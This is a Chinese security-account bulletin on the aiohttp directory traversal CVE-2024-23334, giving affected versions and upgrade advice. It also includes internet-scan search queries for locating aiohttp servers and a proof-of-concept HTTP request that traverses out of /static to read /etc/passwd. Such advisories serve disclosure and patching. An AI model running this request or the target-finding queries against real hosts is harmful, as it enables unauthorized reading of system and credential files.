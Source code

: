 #  安全情报，aiohttp存在目录遍历漏洞（CVE-2024-23334）！！！   
原创 Ax  极星信安   2024-02-28 18:01  
  
**声明：**该公众号大部分文章来自作者日常学习笔记，也有部分文章是经过作者授权和其他公众号白名单转载，禁止私自转载。如需转载，请联系作者！！！！  
  
请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关！！！！！  
  
**漏洞介绍**  
  
aiohttp是一个Python的HTTP客户端/服务器框架，它基于asyncio库实现异步编程模型，可以支持高性能和高并发的HTTP通信。aiohttp用于编写异步的Web服务器、Web应用程序或HTTP客户端，以提供对Web和HTTP  
资源的访问和操作。近日监测到aiohttp目录遍历漏洞的漏洞情报,aiohttp使用选项"follow_symlinks"来决定是否跟踪静态根目录之外的符号链接。当"follow_symlinks "设置为 "True "时,将不会验证读取的文件是否在根目录内从而导致目录遍历，攻击者可以利用此漏洞访问系统上的任意文件。  
  
**影响版本**  
```
1.0.5 <aiohttp < 3.9.2
```  
  
**漏洞情报**  
  
**搜索引擎语法**  
```
fofa:app="aiohttp"
hunter: app.name="aiohttp"
钟馗之眼：app:"aiohttp"
```  
  
**Poc**  
```
GET /static/../../../../../../etc/passwd HTTP/1.1
Host: xxxxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```  
  
**修复建议**  
```
官方已发布修复建议，建议受影响的用户尽快升级至安全版本。
下载地址：https://github.com/aio-libs/aiohttp/tags
```  
  
**关注我们**  
  
  
  
公众号回复“  
**CVE-2024-23334**  
”获取自动化脚本  
  
